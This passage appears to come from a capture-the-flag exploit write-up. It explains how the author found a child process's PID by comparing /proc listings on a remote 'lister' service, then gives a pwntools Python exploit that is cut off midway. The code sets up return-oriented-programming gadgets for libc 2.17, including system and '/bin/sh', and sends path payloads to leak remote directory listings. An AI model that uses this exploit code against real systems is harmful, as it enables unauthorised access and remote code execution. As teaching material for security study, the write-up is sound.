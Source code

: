 But how did I figure out the PID of the process? With the assumption that most of the time, newly spawned processes on the remote machine are only the children of the `lister` process, I took the following steps to get the PID of a child process:

- Connect to the service to create a process. Read the `/proc` directory
- Connect to the service the second time to create a new process. Read the `/proc` directory again
- The difference between the 2 output is the PID of the newly created process the second time we connect to the service.

From this point on, I had all the necessary information to write the exploit. The code below has comments to help you understand it.

```python
from pwn import *
import string

context.arch = 'amd64'

HOST = "10.123.15.53"
PORT = 12345
#HOST = "localhost"
#PORT = 1234

libc = ELF('./libc-2.17.so')
libc_base = 0x7fd9dcd83000

gadgets = {}
gadgets['system'] = libc.symbols['system']
gadgets['binsh'] = next(libc.search("/bin/sh\x00"))
gadgets['pop_rdi'] = 0x22298
gadgets['syscall'] = 0xc0065
gadgets['pop_rax'] = 0x1d150
gadgets['pop_rsi'] = 0x21738
gadgets['pop_rdx'] = 0x1b92
gadgets['xor_rax_rax'] = 0x8906f
gadgets['push_rax'] = 0xa5e8

context.log_level = 'ERROR'


def getDir(dirToList):
    print "Getting {}".format(dirToList)
    M = ""
    for i in range(0, 10): # Pad the path with additional characters because of the glitch
        try:
            s = remote(HOST, PORT)
            payload = '/' * i + '{}/'.format(dirToList)
            s.sendline(payload)
            m = ""
            while True:
                try:
                    c = s.recv(1)
                    m += c
                except:
                    break
            s.close()
            if "Directory does not exist" not in m:
                M = m
                break
        except:
            s.close()
    return M

def getProcesses():
    m = getDir("/proc").strip('\n').split('\n')
```